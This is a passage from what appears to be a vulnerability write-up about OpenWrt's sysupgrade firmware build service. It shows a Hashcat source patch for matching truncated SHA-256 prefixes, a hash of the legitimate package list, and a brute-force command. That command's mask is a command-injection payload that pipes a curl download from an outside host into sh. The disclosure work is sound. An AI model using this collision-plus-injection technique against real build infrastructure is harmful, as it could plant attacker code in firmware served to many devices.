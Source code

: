 ```diff
   }
 }
 
diff --git a/src/modules/module_01400.c b/src/modules/module_01400.c
index ab002efbe..03549d7f5 100644
--- a/src/modules/module_01400.c
+++ b/src/modules/module_01400.c
@@ -11,10 +11,10 @@
 #include "shared.h"
 
 static const u32   ATTACK_EXEC    = ATTACK_EXEC_INSIDE_KERNEL;
-static const u32   DGST_POS0      = 3;
-static const u32   DGST_POS1      = 7;
-static const u32   DGST_POS2      = 2;
-static const u32   DGST_POS3      = 6;
+static const u32   DGST_POS0      = 0;
+static const u32   DGST_POS1      = 0;
+static const u32   DGST_POS2      = 0;
+static const u32   DGST_POS3      = 0;
 static const u32   DGST_SIZE      = DGST_SIZE_4_8;
 static const u32   HASH_CATEGORY  = HASH_CATEGORY_RAW_HASH;
 static const char *HASH_NAME      = "SHA2-256";
```

Then, I wrapped it with a small script to check if the output from Hashcat contains the 12-character collision.  

## Combining both attacks
To combine both attacks, we need to find a payload that has the 12-character hash collision against the legitimate package list.  

I've gathered the package list from the `firmware-selector.openwrt.org`, which is a frontend of the `sysupgrade.openwrt.org`, and calculated the legitimate hash:
```sh
$ printf 'base-files busybox ca-bundle dnsmasq dropbear firewall4 fstools kmod-gpio-button-hotplug kmod-hwmon-nct7802 kmod-nft-offload libc libgcc libustream-mbedtls logd luci mtd netifd nftables odhcp6c odhcpd-ipv6only opkg ppp ppp-mod-pppoe procd procd-seccomp procd-ujail uboot-envtools uci uclient-fetch urandom-seed urngd' | sha256sum
8f7018b33d9472113274fa6516c237e32f67685fc1fc3cbdbf144647d0b3feeb  -
```

The first 12 characters of this hash are `8f7018b33d94`, so we need to find a command injection payload that has the same prefix for the hash.  

To find such a payload, I executed the modified version of the Hashcat on RTX 4090 with the following command: 
```sh
$ ./hashcat -m 1400 8f7018b33d9472113274fa6516c237e32f67685fc1fc3cbdbf144647d0b3feeb -O -a 3 -w 3 '`curl -L tmp.ryotak.net/?l?l?l?l?l?l?l?l?l?l|sh`' --self-test-disable --potfile-disable --keep-guessing
```

After executing the command, Hashcat started to calculate hashes at the speed of around 500 million hashes per second, so I left it running.  
